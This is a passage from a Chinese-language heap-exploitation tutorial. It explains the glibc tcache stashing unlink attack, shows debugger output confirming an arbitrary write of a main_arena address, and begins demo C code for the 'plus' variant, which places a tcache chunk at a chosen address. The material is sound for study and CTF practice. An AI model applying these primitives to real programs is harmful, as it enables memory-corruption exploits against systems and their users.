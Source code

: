 可以看到这一块，并没有进行双向链表的检查。其中`bck-&gt;fd = bin;`这个也就是对于 (&amp;tag – 0x10) + 0x10 = bin。也就是将目标地址上的值赋为 bin，这样就实现了等价于 unsortedbin Attack 的操作。

```
pwndbg&gt; x/30gx 0x0000555555558050
0x555555558050 &lt;victim&gt;:        0x00007ffff7fb9c30      0x0000000000000000
```

可以看到攻击已经成功。

```
0x60)   tcache_entry[4](7): 0x555555559e40 --&gt; 0x5555555594a0 --&gt; 0x555555559440 --&gt; 0x5555555593e0 --&gt; 0x555555559380 --&gt; 0x555555559320 --&gt; 0x5555555592c0
```

且已经满chain，结束了stash的过程。

需要注意的是，刚才描述的放入过程是一个循环，我们将伪造的bck看成一个堆块，其bk很可能是一个非法的地址，这样就导致循环到下一个堆块时unlink执行到`bck-&gt;fd = bin;`访问非法内存造成程序crash。所以开始，选择释放6个对应size的chunk到tcache bin，只为tcache留一个空间，这样循环一次就会跳出，不会有后续问题。

#### <a class="reference-link" name="%E5%B0%8F%E6%80%BB%E7%BB%93"></a>小总结
- 先放入 2 个 Chunk 到 smallbins，6 个 Chunk 到对应的 tcache；
- 然后在不破坏 fd 的情况下,将后放入 smallbins 的 chunk 的 bk 设置为目标地址减 0x10。
- 这样再用calloc向 smallbins 申请对应大小的 Chunk 时，先放入 smallbins 的 Chunk 被分配给用户，然后触发 stash 机制。`bck = tc_victim-&gt;bk;`此时的 bck 就是目标地址减 0x10，之后`bck-&gt;fd = bin;` 也就是将目标地址上的值赋为 bin，写上了`main_arena`的地址，这样就实现了等价于 unsortedbin attack 的操作；
- 之后再调用 `tcache_put` 把后放入 smallbins 的 Chunk 取出给对应的 tcache ，因为 tcache 之前已经被布置了 6 个 Chunk，在这次之后达到了阈值，所以也就退出了 stash 循环，整个流程就会正常结束。
### `tcache_stashing_unlink plus`

#### <a class="reference-link" name="%E7%A4%BA%E4%BE%8B%E4%BB%A3%E7%A0%81"></a>示例代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;inttypes.h&gt;
static uint64_t victim[4] = `{`0, 0, 0, 0`}`;

int main(int argc, char **argv)`{`
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    char *t1;
    char *s1, *s2, *pad;
    char *tmp;

    printf("You can use this technique to get a tcache chunk to arbitrary address\n");

    printf("\n1. need to know heap address and the victim address that you need to attack\n");

    tmp = malloc(0x1);
    printf("victim's address: %p, victim's vaule: [0x%lx, 0x%lx, 0x%lx, 0x%lx]\n", 
        &amp;victim, victim[0], victim[1], victim[2], victim[3]);
    printf("heap address: %p\n", tmp-0x260);

    printf("\n2. change victim's data, make victim[1] = &amp;victim, or other address to writable address\n");
    //只要是一个可以写的指针地址即可，不一定是&amp;victim
    victim[1] = (uint64_t)(&amp;victim);
    printf("victim's vaule: [0x%lx, 0x%lx, 0x%lx, 0x%lx]\n", 
        victim[0], victim[1], victim[2], victim[3]);


    printf("\n3. choose a stable size and free five identical size chunks to tcache_entry list\n");
    printf("Here, I choose the size 0x60\n");
```